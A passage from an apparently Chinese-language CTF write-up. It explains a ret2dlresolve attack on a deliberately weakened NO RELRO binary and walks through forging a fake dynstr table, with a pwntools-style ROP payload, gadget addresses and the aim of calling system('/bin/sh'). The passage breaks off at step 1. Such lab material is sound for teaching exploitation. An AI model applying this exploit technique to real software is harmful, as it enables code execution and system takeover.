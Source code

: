 以如下形式编译：

```bash
gcc -o pwn ./pwn.c -no-pie -fno-stack-protector -z norelro -masm=intel
```

程序允许一个非常大的溢出，足够我们构造`ROP`链，但程序里不含有任何输出的函数，因此无法获得`glibc`的相关信息。

由此，我们可以通过`ret2dlresolve`进行攻击。而本题是`NO RELRO`的，这使得我们可以直接伪造一个`dynstr`表，将原本的`read`字符串修改为要执行的函数的函数名即可。相当于我们只需要完成`Paritial RELRO`攻击的最后一步，不过需要我们劫持`DYNAMIC`段中的`dynstr_table`。

我们的攻击分为以下几步：

- `step 0 :`在`bss`上写一个新的`dynstr table (fake)`
- `step 1 :`在`bss`上写一个`/bin/sh`字符串，留作函数参数
- `step 2 :`修改`dynamic`段中的`dynstr`字符串表，将其改为伪造的`dynstr table`的地址
- `step 3 :`给`system`添加参数，手动触发`_dl_runtime_desolve`

那么现在一步一步来看。

## step 0：构造一个fake dynstr table

真实的`dynstr table`位于程序开始的`LOAD`段的末尾处，如下所示：

![image-20240606160645578](https://ltfallpics.oss-cn-hangzhou.aliyuncs.com/images/202406061606733.png)

可见这仅仅是一个字符串表而已。我们将里面的`read`字符串换成任何想要执行的函数，例如`system`，并将其放在`bss`段某处即可。

可以通过如下方式来获得这段字符串，并将其中的`read`字符串换成`system`：

```python
dynstr_data = elf.get_section_by_name('.dynstr').data().replace(b'read', b'system')
```

随后只需要在`ROP`链中将其读到`bss`即可，当前`exp`如下：

```python
pop_rdi = 0x4011d3
pop_rsi_r15 = 0x4011d1
pop_rdx = 0x401136
offset = 0x108
fake_table = elf.bss() + 0x200

dynstr_data = elf.get_section_by_name('.dynstr').data().replace(b'read', b'system')

# step 0: 在bss上构建一个fake dynstr table
payload = b'a'*0x108 + p64(pop_rdi) + p64(0) + p64(pop_rsi_r15) + p64(fake_table) + p64(0xdeadbeaf) + p64(elf.plt['read'])

sh.send(payload)

sh.send(dynstr_data) # fake dynstr table
```

## step 1: 在bss上写一个/bin/sh字符串

最简单的一步，这只是为了最后执行`system`函数的时候有`/bin/sh`字符串可以用。
